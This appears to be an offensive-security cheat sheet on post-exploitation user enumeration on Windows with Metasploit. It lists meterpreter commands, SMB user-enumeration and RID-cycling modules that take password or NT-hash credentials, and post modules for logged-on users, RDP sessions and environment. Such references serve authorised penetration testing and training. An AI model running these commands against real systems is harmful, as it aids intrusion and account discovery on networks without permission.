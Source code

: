 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - enumeration-and-discovery
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Current User Enumeration

Discover current username.

```
meterpreter > getuid
```

Using interactive ruby shell to retrieve current username.

```
meterpreter > irb
>> client.sys.config.getuid
```

Check the user's privileges

```
meterpreter > getprivs

meterpreter > run post/windows/gather/win_privs
```

Enumerate local username is an administrator.

```
meterpreter > irb
>> client.railgun.shell32.IsUserAnAdmin()
```

Discover username's current SID

```
meterpreter > getsid
```

Using interactive ruby shell to retrieve current SID.

```
meterpreter > irb
>> client.sys.config.getsid
```

## 02 - Enumerate usernames

### 2.1 - SMB Port

```
msf > use auxiliary/scanner/smb/smb_enumusers

msf auxiliary(scanner/smb/smb_enumusers) > options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DB_ALL_USERS  false            no        Add all enumerated usernames to the database
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain     .                no        The Windows domain to use for authentication
   SMBPass                        no        The password for the specified username
   SMBUser                        no        The username to authenticate as
   THREADS       1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/smb_enumusers) > set smbuser <username>

msf auxiliary(scanner/smb/smb_enumusers) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(scanner/smb/smb_enumusers) > set rhosts <IP>

msf auxiliary(scanner/smb/smb_enumusers) > set smbdomain [<domain>]

msf auxiliary(scanner/smb/smb_enumusers) > set threads 4

msf auxiliary(scanner/smb/smb_enumusers) > run
```

### 2.2 - Interactive Session

Enumerate usernames from a directory (OPSEC safe).

```
meterpreter > ls C:/Users/

meterpreter > ls //<IP>/C$/Users/
```

## 02 - User Environment

### 2.1 - Modules

#### 2.1.1 - Post

```
msf > use post/multi/gather/env

msf post(multi/gather/env) > options

Module options (post/multi/gather/env):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on

msf post(multi/gather/env) > set session <session_ID>

msf post(multi/gather/env) > run
```

### 2.2 - Meterpreter

```
meterpreter > run post/multi/gather/env

meterpreter > run post/windows/gather/enum_powershell_env
```

## 03 - Logged On Users

```
meterpreter > run post/windows/gather/enum_logged_on_users
```

Enumerate RDP sessions.

```
meterpreter > run post/windows/gather/enum_termserv
```

## 04 - User enumeration via RID Cycling

Metasploit auxiliary bruteforce users via SID lookups.

```
msf > use auxiliary/scanner/smb/smb_lookupsid

msf auxiliary(scanner/smb/smb_lookupsid) > show actions 

Auxiliary actions:

       Name    Description
       ----    -----------
       DOMAIN  Enumerate domain accounts
   =>  LOCAL   Enumerate local accounts

msf auxiliary(scanner/smb/smb_lookupsid) > options

Module options (auxiliary/scanner/smb/smb_lookupsid):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   MaxRID  4000             no        Maximum RID to check
   MinRID  500              no        Starting RID to check


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


Auxiliary action:

   Name   Description
   ----   -----------
   LOCAL  Enumerate local accounts



View the full module info with the info, or info -d command.

msf auxiliary(scanner/smb/smb_lookupsid) > set action local

msf auxiliary(scanner/smb/smb_lookupsid) > set smbuser <username>

msf auxiliary(scanner/smb/smb_lookupsid) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf auxiliary(scanner/smb/smb_lookupsid) > set smbdomain [<domain>]

msf auxiliary(scanner/smb/smb_lookupsid) > set rhosts <target_IP>

msf auxiliary(scanner/smb/smb_lookupsid) > set minrid <min_id_range>

msf auxiliary(scanner/smb/smb_lookupsid) > set maxrid <max_id_range>

msf auxiliary(scanner/smb/smb_lookupsid) > set threads 2

msf auxiliary(scanner/smb/smb_lookupsid) > run
```

## 05 - All in one go

```
meterpreter > run winenum
```